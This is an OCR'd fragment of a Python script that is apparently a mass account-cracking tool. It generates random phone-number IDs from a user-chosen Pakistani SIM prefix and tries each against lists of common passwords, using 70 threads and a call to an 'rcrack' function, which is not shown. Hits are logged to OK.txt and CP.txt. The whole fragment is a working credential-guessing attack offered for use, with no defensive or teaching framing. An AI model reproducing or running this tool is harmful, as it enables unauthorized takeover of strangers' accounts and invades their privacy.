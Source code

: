     print(46*'-')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+kode)
        print('\x1b[1;91m If you no result use flight mode')
        lines()
        for guru in user:
            uid = kode+guru
            pwx=[guru,kode,'pakistan','khankhan','khan123','malik123','Ahmad123']
            yaari.submit(rcrack,uid,pwx,tl)
    print(46*'-')
    print('IDZ SAVED IN OK.txt : CP.txt')
    print(46*'-')
    print('The Process Has Been Complete')
    print('Press Enter to Back');riaz()
def b2():
    user=[]
    os.system('clear')
    print(logo)
    print('[+] Example  : 92345,92306,92303,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Sim Code ')
    lines()
    kode = input('[+] Your Code : ')
    lines()
    os.system('clear')
    print(logo)
    print('[+] Example  : 1000,2000,3000,5000,Etc')
    print('\x1b[1;91m[+] See Note : Use Your Idz  Lemit ')
    lines()
    limit = int(input('[+] Idz Lemit : '))
    print(46*'-')
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=70) as yaari:
        os.system('clear')
        print(logo)
        tl = str(len(user))
        print(' Total Acounts : '+tl)
        print(' Selected Code :\x1b[1;92m '+kode)
        print('\x1b[1;91m If you no result use flight mode')
        lines()
        for guru in user:
            uid = kode+guru
            pwx=[guru,'MALIK123','pakistan','khankhan','khan123','khan12345','123456','Ahmad123','khan1212','khan1122']
            yaari.submit(rcrack,uid,pwx,tl)
    print(46*'-')
    print('IDZ SAVED IN OK.txt : CP.txt')
    print(46*'-')
    print('The Process Has Been Complete')
    print('Press Enter to Back');riaz()
